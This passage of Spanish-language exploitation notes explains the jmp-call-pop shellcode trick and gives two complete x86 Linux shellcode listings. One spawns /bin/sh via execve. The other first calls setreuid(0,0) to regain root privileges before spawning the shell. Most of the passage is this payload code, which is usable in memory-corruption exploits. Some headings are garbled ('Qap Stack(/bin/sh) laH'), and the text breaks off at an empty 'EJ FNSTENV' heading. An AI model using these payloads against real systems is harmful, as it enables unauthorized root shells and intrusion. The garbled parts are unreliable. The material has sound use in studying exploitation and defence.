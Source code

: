 ### A la hora de crear shellcodes se puede realizar un truco. La primera instrucción es un jump a un call. El call llama al código original y además mete en el stack el EIP. Después de la instrucción call hemos metido el string que necesitásemos, por lo que con ese EIP podemos señalar al string y además continuar ejecutando el código.

### EJ **TRUCO (/bin/sh)**:
```
jmp                 0x1f                                        ; Salto al último call
popl                %esi                                       ; Guardamos en ese la dirección al string
movl               %esi, 0x8(%esi)       ; Concatenar dos veces el string (en este caso /bin/sh)
xorl                 %eax, %eax             ; eax = NULL
movb  %eax, 0x7(%esi)     ; Ponemos un NULL al final del primer /bin/sh
movl               %eax, 0xc(%esi)      ; Ponemos un NULL al final del segundo /bin/sh
movl   $0xb, %eax               ; Syscall 11
movl               %esi, %ebx               ; arg1=“/bin/sh”
leal                 0x8(%esi), %ecx      ; arg[2] = {“/bin/sh”, “0”}
leal                 0xc(%esi), %edx      ; arg3 = NULL
int                    $0x80                         ; excve(“/bin/sh”, [“/bin/sh”, NULL], NULL)
xorl                 %ebx, %ebx             ; ebx = NULL
movl   %ebx, %eax
inc                   %eax                          ; Syscall 1
int                    $0x80                         ; exit(0)
call                  -0x24                          ; Salto a la primera instrución
.string             \”/bin/sh\”                               ; String a usar<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```
**Qap Stack(/bin/sh) laH:**
```
section .text
global _start
_start:
xor                  eax, eax                     ;Limpieza
mov                al, 0x46                      ; Syscall 70
xor                  ebx, ebx                     ; arg1 = 0
xor                  ecx, ecx                     ; arg2 = 0
int                    0x80                           ; setreuid(0,0)
xor                  eax, eax                     ; eax = 0
push   eax                             ; “\0”
push               dword 0x68732f2f ; “//sh”
push               dword 0x6e69622f; “/bin”
mov                ebx, esp                     ; arg1 = “/bin//sh\0”
push               eax                             ; Null -> args[1]
push               ebx                             ; “/bin/sh\0” -> args[0]
mov                ecx, esp                     ; arg2 = args[]
mov                al, 0x0b                      ; Syscall 11
int                    0x80                           ; excve(“/bin/sh”, args[“/bin/sh”, “NULL”], NULL)
```
**EJ FNSTENV:**
